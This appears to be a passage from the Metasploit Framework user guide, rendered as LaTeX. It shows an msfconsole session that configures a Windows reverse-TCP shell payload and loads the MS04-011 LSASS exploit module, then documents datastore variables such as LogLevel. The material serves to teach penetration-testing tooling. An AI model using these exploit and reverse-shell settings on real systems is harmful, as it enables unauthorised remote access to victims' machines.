 \documentclass{report}
\begin{document}
{\footnotesize
\begin{verbatim}
f > setg LHOST 192.168.0.10
LHOST => 192.168.0.10
msf > setg LPORT 4445
LPORT => 4445
msf > setg PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > show options

Module options:

...

Payload options:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.0.10     yes       The local address
   LPORT     4445             yes       The local port

...

\end{verbatim}}

    \section{DataStore Variables}
    \label{ENV-VAR}
\par
The datastore can be used to configure many aspects of the Framework, ranging
from user interface settings to specific timeout options in the network socket
API. This section describes the most commonly used environment variables.  

\par
For a complete listing of all environment variables, please see the file
Environment.txt in the ``documentation'' subdirectory of the Framework. 

	\subsection{LogLevel}
\par
This variable is used to control the verbosity of log messages provided
by the components of the Framework.  If this variable is not set, framework
logging is disabled.  Setting this variable to 0 will turn on default log
messages.  A value of 1 will enable additional, non-verbose log messages that
may be helpful in troubleshooting.  A value of 2 will enable verbose debug
logging.  A value of 3 will enable all logging and may generate a large amount
of log messages.  Only use this when much additional information is required.
Log files are stored in the logs subdirectory of the user's configuration
directory (~/.msf3/logs). Unlike version 2 of the framework, debugging
messages are never written directly to the console.
\end{document}
